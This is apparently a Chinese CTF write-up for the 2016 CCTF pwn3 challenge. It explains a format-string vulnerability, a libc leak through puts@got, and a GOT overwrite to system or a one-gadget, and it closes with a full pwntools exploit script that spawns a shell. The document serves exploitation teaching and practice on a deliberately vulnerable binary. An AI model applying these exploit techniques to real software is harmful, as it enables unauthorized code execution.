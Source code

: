## 2016 CCTF pwn3

**考点：格式化字符串、hijack GOT、堆**

### 分析

#### 保护情况

32 位动态链接；打开 NX ；RELRO 部分保护，可以改 GOT 表地址

```shell
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
#### 漏洞函数

程序实现的输出功能存在格式化字符串漏洞。函数将内容写入到 dest 中，在用 printf 输出，而 dest 内容是可控的。

```c
int get_file()
{
  char dest; // [esp+1Ch] [ebp-FCh]
  char s1; // [esp+E4h] [ebp-34h]
  char *i; // [esp+10Ch] [ebp-Ch]

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 40);
      return printf(&dest);//格式化字符串
    }
  }
  return printf(&dest);//格式化字符串
}
```

### 思路

整体攻击工程：

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 绕过密码

简单移位密码，移动位数是 1 。密文是：``sysbdmin``，对应明文是：``rxraclhm``。

```c
__isoc99_scanf("%40s", src);
for ( i = 0; i <= 39 && src[i]; ++i )
    ++src[i];
```

#### 确定格式化字符串参数偏移

我还是使用自己熟悉的方法泄露出地址（写一堆%p），懒得计算，偏移为 7 ：

![fmrstr_1.png](..\..\..\img\fmrstr_1.png)

#### 泄露 libc 地址

content 是存在堆中的，不是栈上的，也就搞不到栈上的 libc 函数地址，但是堆中内容是可控的，我们可以往里面写入 libc 函数地址，然后在读出来就行了。

```python
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')
puts_leak = u32(p.recv(4))
```

#### 修改 got 表

修改还是用的 格式化字符串 ，需要做的就是将 payload 写入到堆中，然后用程序的 get 功能触发漏洞。payload 的话可以用 pwntools 工具构建，32 位的问题不大，64 位的话我选择手动。

覆盖方式多种多样了，下面的是最后实现调用 ``system('/bin/sh')``：

```python
payload = fmtstr_payload(7, {puts_got: system})
creat('/bin/sh;', payload)		# write 2 chunk
show('/bin/sh;')				# overwrite puts@got 2 system@got
showlist()						# getshell
```

这个堆名要是 ``/binsh;`` ，/bin/sh 的话是 showlist 时作为 system 参数。``;`` 是用来分割前面我们用来泄露地址的堆名，如果不加最后构造出来是：``system('/bin/shaaaa')``

另外一种填充方式就是：将 puts@got 填充为 onegadget ，这样就不需要对堆名有要求了。

```python
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')
```

### exp

```exp
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwn3.py
from pwn import *
context.log_level = 'debug'

p = process("./pwn3")
elf = ELF("./pwn3")
libc = ELF("./libc.so")

def creat(name,content):
    p.recvuntil("ftp>")
    p.sendline("put")
    p.recvuntil("upload:")
    p.sendline(name)
    p.recvuntil("content:")
    p.sendline(content)
def show(name):
    p.recvuntil("ftp>")
    p.sendline("get")
    p.recvuntil("get:")
    p.sendline(name)
def showlist():
    p.recvuntil("ftp>")
    p.sendline("dir")

name = "rxraclhm"
puts_got = elf.got['puts']
log.info("puts_got:"+hex(puts_got))

p.recvuntil("Rainism):")
p.sendline(name)

# leak libc
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')

puts_leak = u32(p.recv(4))
log.info("puts_leak:"+hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
log.info("libc_base:"+hex(libc_base))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))
binsh = libc_base + libc.search('/bin/sh').next()
log.info("binsh:"+hex(binsh))
onegadget = libc_base + 0x3ac62
log.info("onegadget:"+hex(onegadget))

# 1:overcover puts@got 2 system@got

#payload = fmtstr_payload(7, {puts_got: system})
#creat('/bin/sh;', payload)
#show('/bin/sh;')
#showlist()

# 2:overcover puts@got 2 onegadget
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')

p.interactive()
```



